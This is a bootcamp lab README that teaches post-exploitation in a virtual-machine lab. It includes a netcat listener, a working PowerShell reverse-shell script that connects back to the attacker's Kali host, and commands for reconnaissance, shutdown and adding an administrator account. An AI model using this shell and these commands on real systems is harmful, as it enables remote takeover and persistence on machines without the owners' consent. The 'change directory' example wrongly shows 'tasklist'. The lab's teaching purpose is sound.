





# Windows CMD Commands for Remote Hacking
<!-- hide -->

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[](https://4geeks.com)
[](https://twitter.com/4geeksacademy)

*These instructions are also [available in Spanish](https://github.com/breatheco-de/commands-for-remote-hacking/blob/main/README.es.md)*
<!-- endhide -->

### Before you start...

> We need you! These exercises are created and maintained in collaboration with people like you. If you find any errors or typos, please contribute and/or report them.

## 🌱 How to Start This Project

This exercise aims to utilize Windows CMD commands in the context of a remote connection, simulating a remote hacking attack. This tutorial will help you establish a reverse shell from a Windows 10 machine to a Kali Linux machine, executing a series of commands to gather critical information from the Windows system. All of this will be done in a controlled environment, using virtual machines, and will focus on the post-exploitation phase of an ethical attack.


### Requirements

- **Attacker Machine (Kali Linux)**:
  - Required Software: `Netcat` (pre-installed on Kali Linux)
  
- **Target Machine (Windows 10)**:
  - Access to **PowerShell** and permission to run scripts

> Both virtual machines must be configured with the bridged adapter option so they can communicate over the local network.

## 📝 Instructions

1. Network Configuration: Verify that both machines can communicate using the ping command from Kali to Windows and vice versa.

2. Establish the connection with Netcat on the Kali Linux machine (Attacker). Open a terminal and listen on a specific port (in this case, port 4444) using Netcat:

```bash
nc -lvnp 4444
```

This will set up a listener on the Kali machine, waiting for a connection from Windows.

3. Open PowerShell on the Windows 10 machine (Target) and execute the following script to establish the reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

**Note**: Remember to replace "IP-of-Kali" with the IP address of your Kali Linux machine.




With the script running on Windows, you can now send commands from Kali through the Netcat session you initiated. Here are some useful commands to interact with the Windows machine:


### Basic Windows Commands:

- **List files in the current directory**:

```bash
dir
```
- **Get system information**:
```bash
systeminfo
```



- **Get network configuration:**:
```bash
ipconfig
```


- **List running processes**:
```bash
tasklist
```
### Commands for Detailed Information:



- **View system information**:
    ```bash
    hostname
    ```
- **List users on the system**:
    ```bash
    net user
    ```
    
- **View active network connections:**:
    ```bash
    netstat -an
    ```

### Commands for Navigating the File System:

- **Change directory:**:
    ```bash
    tasklist
    ```
- **Create a file or directory:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Administrative Commands (if you have privileges):

- **Shut down or restart the system:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Add an administrator user:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Research more commands to practice..

### End the Session
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```


## Contributors

Thanks to these amazing people ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr), contribution: (bug reports) 🐛

This project follows the [all-contributors](https://github.com/kentcdodds/all-contributors) specification. Contributions of any kind are welcome!

This and other exercises are used to [learn to code](https://4geeksacademy.com/us/learn-to-code) by students at 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) led by [Alejandro Sánchez](https://twitter.com/alesanchezr) and many other contributors. Learn more about our [Programming Courses](https://4geeksacademy.com/us/programming-courses) to become a [Full Stack Developer](https://4geeksacademy.com/us/coding-bootcamps/full-stack-developer), or our [Data Science Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/data-science-machine-learning-bootcamp). You can also dive into cybersecurity with our [Cybersecurity Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/cybersecurity-bootcamp).

